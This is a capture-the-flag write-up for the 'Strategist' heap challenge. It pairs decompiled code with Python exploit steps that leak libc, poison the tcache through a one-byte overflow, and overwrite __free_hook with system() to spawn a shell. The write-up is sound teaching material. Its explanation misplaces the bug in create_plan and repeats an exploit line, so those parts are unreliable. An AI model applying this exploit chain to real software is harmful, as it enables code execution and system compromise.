


    	<font size="10">Strategist</font>

​		31sup>th</sup> Dec 2024 / Document No. D24.102.XX

​		Prepared By: w3th4nds

​		Challenge Author(s): w3th4nds

​		Difficulty: <font color=orange>Medium</font>

​		Classification: Official

 


# Synopsis

Strategist is an medium difficulty challenge that features Heap overflow, tchache poisoning.

# Description

To move forward, Sir Alaric requests each member of his team to present their most effective planning strategy. The individual with the strongest plan will be appointed as the Strategist for the upcoming war. Put forth your best effort to claim the role of Strategist!

## Skills Required

- Basic Heap

## Skills Learned

- Heap Overflow, tcache poisoning.

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
Arch:       amd64
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'./glibc/'
Stripped:   No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅       | Disables **code execution** on stack |
| **PIE**    | ✅      | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

The program's interface 



### Disassembly

Starting with `main()`:

```c
00001203  int32_t main(int32_t argc, char** argv, char** envp)

00001203  {
00001217      void* fsbase;
00001217      int64_t canary = *(uint64_t*)((char*)fsbase + 0x28);
00001231      void plans;
00001231      memset(&plans, 0, 0x320);
00001236      banner();
00001236      
00001240      while (true)
00001240      {
00001240          uint64_t choice = menu();
00001240          
00001249          if (choice == 2)
00001282              show_plan(&plans);
00001249          else if (choice <= 2)
0000124f          {
00001255              if (choice != 1)
00001255                  break;
00001255              
00001271              create_plan(&plans);
0000124f          }
0000124f          else if (choice == 3)
00001293              edit_plan(&plans);
0000125d          else
0000125d          {
00001263              if (choice != 4)
00001263                  break;
00001263              
000012a4              delete_plan(&plans);
0000125d          }
00001240      }
00001240      
000012cc      printf("%s\n[%sSir Alaric%s]: This plan …", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
000012d6      exit(0x520);  {  // {"din"}}
000012d6      /* no return */
00001203  }
```

As we can see, we have 4 options:

- `Create`
- `Show`
- `Edit`
- `Delete`

Let's head into each function to analyze it.

#### create_plan()

```c
00000cec  int64_t create_plan(int64_t arg1)

00000cec  {
00000cf8      void* fsbase;
00000cf8      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00000d0e      int32_t rax_2 = check(arg1);
00000d0e      
00000d1a      if (rax_2 == 0xffffffff)
00000d1a      {
00000d3d          printf("%s\n[%sSir Alaric%s]: Don't go a…", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
00000d47          exit(0x520);  {  // {"din"}}
00000d47          /* no return */
00000d1a      }
00000d1a      
00000d6d      printf("%s\n[%sSir Alaric%s]: How long w…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00000d72      int32_t var_20 = 0;
00000d8c      __isoc99_scanf(&data_25b5, &var_20);
00000d99      int64_t buf = malloc(((int64_t)var_20));
00000d99      
00000da7      if (buf == 0)
00000da7      {
00000dca          printf("%s\n[%sSir Alaric%s]: This plan …", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
00000dd4          exit(0x520);  {  // {"din"}}
00000dd4          /* no return */
00000da7      }
00000da7      
00000dfa      printf("%s\n[%sSir Alaric%s]: Please ela…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00000e11      read(0, buf, ((int64_t)var_20));
00000e2e      *(uint64_t*)((((int64_t)rax_2) << 3) + arg1) = buf;
00000e52      printf("%s\n[%sSir Alaric%s]: The plan m…", "\x1b[1;32m", "\x1b[1;33m", "\x1b[1;32m");
00000e5c      int64_t result = (rax ^ *(uint64_t*)((char*)fsbase + 0x28));
00000e5c      
00000e65      if (result == 0)
00000e6d          return result;
00000e6d      
00000e67      __stack_chk_fail();
00000e67      /* no return */
00000cec  }
```

There is a call to `check(arg1)` which just a returns the index of an empty `"plan"` if exists. Then, there is a `scanf()` call which takes an arbitrary size of question. Then, it allocates this much size with `malloc()` and prompts us to to write something.

#### show_plan()

```c
00000fb9  int64_t show_plan(void* arg1)

00000fb9  {
00000fc5      void* fsbase;
00000fc5      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00000ff5      printf("%s\n[%sSir Alaric%s]: Which plan…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00000ffa      int32_t var_14 = 0;
00001014      __isoc99_scanf(&data_25b5, &var_14);
00001014      
00001042      if ((var_14 < 0 || (var_14 > 0x63 || *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)) == 0)))
00001042      {
00001065          printf("%s\n[%sSir Alaric%s]: There is n…", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
0000106f          exit(0x520);  {  // {"din"}}
0000106f          /* no return */
00001042      }
00001042      
000010b5      printf("%s\n[%sSir Alaric%s]: Plan [%d]:…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m", ((uint64_t)var_14), *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)));
000010bf      int64_t result = (rax ^ *(uint64_t*)((char*)fsbase + 0x28));
000010bf      
000010c8      if (result == 0)
000010d0          return result;
000010d0      
000010ca      __stack_chk_fail();
000010ca      /* no return */
00000fb9  }
```

It takes index as argument and prints the corresponding question if it exists. This function will help us leak `libc` address later. 

#### edit_plan()

```c
00000e6e  int64_t edit_plan(void* arg1)

00000e6e  {
00000e7a      void* fsbase;
00000e7a      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
00000eaa      printf("%s\n[%sSir Alaric%s]: Which plan…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00000eaf      int32_t var_14 = 0;
00000ec9      __isoc99_scanf(&data_25b5, &var_14);
00000ec9      
00000ef7      if ((var_14 < 0 || (var_14 > 0x63 || *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)) == 0)))
00000ef7      {
00000f1a          printf("%s\n[%sSir Alaric%s]: There is n…", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
00000f24          exit(0x520);  {  // {"din"}}
00000f24          /* no return */
00000ef7      }
00000ef7      
00000f4a      printf("%s\n[%sSir Alaric%s]: Please ela…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00000f69      uint64_t nbytes = strlen(*(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)));
00000f93      read(0, *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)), nbytes);
00000f9d      putchar(0xa);
00000fa7      int64_t result = (rax ^ *(uint64_t*)((char*)fsbase + 0x28));
00000fa7      
00000fb0      if (result == 0)
00000fb8          return result;
00000fb8      
00000fb2      __stack_chk_fail();
00000fb2      /* no return */
00000e6e  }
```

It takes as argument the index of the corresponding question and if it exists, it asks for new content. We will use this to overwrite `__free_hook` with `system()`.

#### delete_plan()

```c
000010d1  int64_t delete_plan(void* arg1)

000010d1  {
000010dd      void* fsbase;
000010dd      int64_t rax = *(uint64_t*)((char*)fsbase + 0x28);
0000110d      printf("%s\n[%sSir Alaric%s]: Which plan…", "\x1b[1;34m", "\x1b[1;33m", "\x1b[1;34m");
00001112      int32_t var_14 = 0;
0000112c      __isoc99_scanf(&data_25b5, &var_14);
0000112c      
0000115a      if ((var_14 < 0 || (var_14 > 0x63 || *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)) == 0)))
0000115a      {
0000117d          printf("%s\n[%sSir Alaric%s]: There is n…", "\x1b[1;31m", "\x1b[1;33m", "\x1b[1;31m");
00001187          exit(0x520);  {  // {"din"}}
00001187          /* no return */
0000115a      }
0000115a      
000011a6      free(*(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)));
000011bf      *(uint64_t*)((char*)arg1 + (((int64_t)var_14) << 3)) = 0;
000011e7      printf("%s\n[%sSir Alaric%s]: We will re…", "\x1b[1;32m", "\x1b[1;33m", "\x1b[1;32m");
000011f1      int64_t result = (rax ^ *(uint64_t*)((char*)fsbase + 0x28));
000011f1      
000011fa      if (result == 0)
00001202          return result;
00001202      
000011fc      __stack_chk_fail();
000011fc      /* no return */
000010d1  }
```

In order to `remove` - `free` a question, we need  to insert its index. This functions deletes - frees a question according to the index we insert, if it exists.

### Heap overflow 

In `create_plan()`, the bug occurs when `read()` reads up to `strlen()` we inserted earlier. There is a `One byte overflow`. The string is not NULL terminated and it can overflow into the size field of the adjacent chunk.

Now that we have found the main vulnerability, we are going to debug binary.

### Unsorted bin 

There is only 1 unsorted bin. Small and large chunks, when freed, end up in  this bin. The primary purpose of this bin is to act as a cache layer (kind of) to speed up allocation and deallocation requests.

### Top chunk

It is the chunk which borders the top of an arena. While servicing `malloc` requests, it is used as the last resort. If still more size is  required, it can grow using the sbrk system call. The PREV_INUSE flag is always set for the top chunk.

`ptmalloc2` is chunk-oriented. On each  allocation it divides this region into various chunks. Each chunk  includes meta-data which stores the chunk properties. The chunk header  stores its size and 3 other things.

- A (0x4): This bit is set when the chunk does not belong to main_arena.
- M (0x2): This bit is set when the chunk is allocated with mmap and is not a part of the heap.
- P (0x1): This bit is set if the previous chunk is not free. Note that, the fd and bk fields are not set for allocated chunks and userdata is stored.

The strategy is same as in (1), but we need to make use of unsorted bins. So, we allocate a chunk with size `0x420` and `0x100`. The  allocation with size `0x100` is to make sure that the freeing of `0x420`  does not result in the consolidation with the top chunk. Afterwards, get an allocation of `0x420`, only send 1 byte,and print that note to get a libc address.

# Solution

First, we are going to leak a `libc address`. Our payload seems like this:

```python
# Leak a libc address
create(0x420, 'w')
create(0x100, 'w')
delete(0)
delete(1)
create(0x420, 'w')
```

After the first `malloc`, we see the heap like this:



The sizes are fixed to: `0x431`, this is because the prev in use flag is set to 1. Now that we have set our chunks, we are going to free them. So, we allocate chunks with size `0x420` and `0x100` respectively. The first one with `0x100` is to make sure that the freeing of `0x420` does not  result in the consolidation with the top chunk. Afterwards, get an  allocation of `0x420`, only send 1 byte,and print that note to get a `libc` address.

We leak `libc` address like this:

```python
sla('> ', '2')
sla('> ', str(idx))
r.recvuntil('Plan [0]: ')
return u64(r.recvline()[:-1].ljust(8, b'\x00')) - 0x36b1d7 - libc.sym.puts
```

After that, we need to overwrite `__free_hook` with `system()`.

```python
# Overwrite __free_hook with system and call `system("/bin/sh") to get shell
delete(0)
create(0x48, 'w'*0x48)
create(0x48, '3'*0x48)
create(0x48, 't'*0x48)
edit(0, b'w'*0x48 + p8(0x80))

edit(0, b'w'*0x48 + p8(0x80))
delete(1)
delete(2)
create(0x70, b'6'*0x50 + p64(libc.sym.__free_hook))
create(0x40, b'/bin/sh\x00')
create(0x40, p64(libc.sym.system))
delete(2)
```


